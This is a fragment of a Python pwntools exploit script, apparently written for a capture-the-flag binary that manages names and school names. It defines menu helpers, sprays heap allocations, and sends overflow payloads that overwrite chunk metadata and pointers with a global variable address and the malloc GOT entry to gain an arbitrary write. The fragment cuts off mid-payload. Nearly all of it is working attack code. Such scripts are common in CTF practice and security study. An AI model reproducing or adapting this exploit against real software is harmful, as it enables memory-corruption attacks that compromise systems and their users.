 ```python
	cn.sendline('1')
	cn.recvuntil('name')
	cn.sendline(str(namelen))
	cn.recvuntil('name')
	cn.sendline(name)
	cn.recvuntil('name')
	cn.sendline(str(schnamelen))
	cn.recvuntil('name')
	cn.sendline(schname)
	cn.recvuntil('tutor')
	cn.sendline('yes')

def remove(idx):
	cn.sendline('2')
	cn.recvuntil('delete')
	cn.sendline(str(idx))

def chg_name(idx,length,s):
	cn.sendline('3')
	cn.recvuntil('edit')
	cn.sendline(str(idx))
	cn.recvuntil('member')
	cn.sendline('1')
	cn.recvuntil('name')
	cn.sendline(str(length))
	cn.recvuntil('name')
	cn.sendline(s)

def chg_schname(idx,length,s):
	cn.sendline('3')
	cn.recvuntil('edit')
	cn.sendline(str(idx))
	cn.recvuntil('member')
	cn.sendline('2')
	cn.recvuntil('name')
	cn.sendline(str(length))
	cn.recvuntil('name')
	cn.sendline(s)
def intro(idx):
	cn.sendline('4')
	cn.recvuntil('id')
	cn.sendline(str(idx))
for i in range(100):
	add('',7,'',47)

p_rand_num=0x60F040

add('aaa',7,'aaa',7)#100
add('bbb',7,'bbb',7)#101

pay = 'A'*7+'\x00'+p64(0)+p64(0)+p64(0x65)+p32(101)+p32(0)+p64(p_rand_num)+p32(0xffffffff)
chg_schname(100,200,pay)


pay = '\x00'*4
chg_name(101,200,pay)


add('ccc',7,'ccc',7)#102
add('ddd',7,'ddd',7)#103

pay = 'A'*7+'\x00'+p64(0)+p64(0)+p64(0x65)+p32(103)+p32(0)+p64(bin.got['malloc'])+p32(p_rand_num-bin.got['malloc']-1)
```